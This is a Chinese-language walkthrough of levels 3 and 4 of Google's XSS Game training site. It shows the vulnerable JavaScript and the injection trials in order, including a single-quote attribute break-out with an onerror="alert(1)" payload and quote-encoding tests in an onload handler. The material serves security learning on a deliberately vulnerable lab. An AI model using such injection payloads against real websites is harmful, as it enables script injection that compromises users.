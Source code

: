 关键代码，直接拼接用户输入，将其设置为 element 的 HTML content

```javascript
var html = "Image " + parseInt(num) + "<br>";
html += "<img src='/static/level3/cloud" + num + ".jpg' />";
$('#tabContent').html(html);
```


修改 `https://xss-game.appspot.com/level3/frame#1` 的 `1` 为 `testgoogle`，查找源码，找输出点为 `<img>` 标签的 `src` 属性

```html
<img src="/static/level3/cloudtestgoogle.jpg">
```

尝试用双引号闭合失败

```html
<img src="/static/level3/cloud&quot;.jpg">
```

单引号成功

```html
<img src="/static/level3/cloud" .jpg'="">
```

使用 `onerror` 函数弹框, pyload 为 `'onerror="alert(1)" '`

```html
<img src="/static/level3/cloud" onerror="alert(1)" '.jpg'="">
```


## level 4
---

XSS输出点在标签的事件属性值

输入 `123testgoogle`, 源码中查找输出点

```html
<img src="/static/loading.gif" onload="startTimer('123testgoogle');">
```

尝试双引号闭合失败，源码：

```html
<img src="/static/loading.gif" onload="startTimer('123testgoogle&quot;');">
```

这里注意到双引号被转成 HTML 实体编码 `&quot;`

使用单引号, 查看源码输出

```html
<img src="/static/loading.gif" onload="startTimer('123testgoogle&#39;');" />
```

单引号被转成了 实体编码 `&#39;`

当图片被加载时，会执行 `startTimer` 函数，此时查看 console，可以看到报语法错误
